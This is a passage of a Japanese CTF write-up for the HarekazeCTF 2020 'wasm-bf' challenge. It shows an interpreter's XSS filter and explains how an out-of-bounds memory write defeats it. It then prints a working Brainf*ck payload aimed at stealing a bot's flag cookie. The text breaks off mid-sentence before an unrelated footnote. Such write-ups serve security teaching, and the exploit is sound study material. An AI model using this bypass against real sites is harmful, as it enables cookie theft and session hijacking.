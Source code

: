 322 pts, 7 solves

> 今はWebAssemblyの時代です。知らんけど。WebAssemblyを学ぶために、Brainf*ckのインタプリタをCで書いてwasmにコンパイルしてみました。<br />
> `http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/wasm-bf/`

### 問題概要

- brainf*ckが実行できるサービスが与えられる
    - 実行時の出力結果が画面に表示される
- フラグのcookieを持ったbotに、適当なbrainf*ckプログラムを実行させることができる

### 解法

brainf*ckの実装を見ると
```c
void print_char(char c) {
  if (buffer_pointer + 4 >= buffer + BUFFER_SIZE) {
    flush();
  }

  // Prevent XSS!
  if (c == '<' || c == '>') {
    buffer_pointer[0] = '&';
    buffer_pointer[1] = c == '<' ? 'l' : 'g';
    buffer_pointer[2] = 't';
    buffer_pointer[3] = ';';
    buffer_pointer += 4;
  } else {
    *buffer_pointer = c;
    buffer_pointer++;
  }
}
```
によりXSSが封じられています。しかし、グローバル変数の宣言部分を見ると、
```c
unsigned char buffer[BUFFER_SIZE] = {0};
unsigned char *buffer_pointer = buffer;
unsigned char memory[MEMORY_SIZE] = {0};
char program[PROGRAM_MAX_SIZE] = {0};
```
`memory`から範囲外アクセスすると`buffer`を上書きすることが可能だとわかるので、あとはbrainf*ckのcode golfをするだけです。文字数制限は1000文字。小さい。

### 攻撃

最終的にできたコードはこれです（見やすいように改行しています）：
```brainfck
----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>---
--.[->+++++<]>-.[--->++<]>.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.+[--->+<]
>++.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[------>+<]>.+[-->+<]>+++.+++++++++++++..
++[->++<]>.[-->+<]>+++.--[->++<]>.[-->+<]>+++++.-----[->++<]>.[-->+<]>++++.+++.-[--->+<]>--.--.++++
[->+++<]>.--------.++.----.--[-->+++++<]>.-------.+++++++++++.---.----.[->++++++++++<]>.+[--->+<]>+
+++.++++++.+[--->++++<]>-.+[-->+<]>++.+++++++++.+[--->+<]>.+++++++++++.------------.-[--->+<]>-.---
-----.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.++++++++++++..----.--.----.-[++++>-----<]>.
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<+<<<<<<<<<<<<<<<<<<<<<<<<
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-
```
文字数は839。やっている処理は


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。
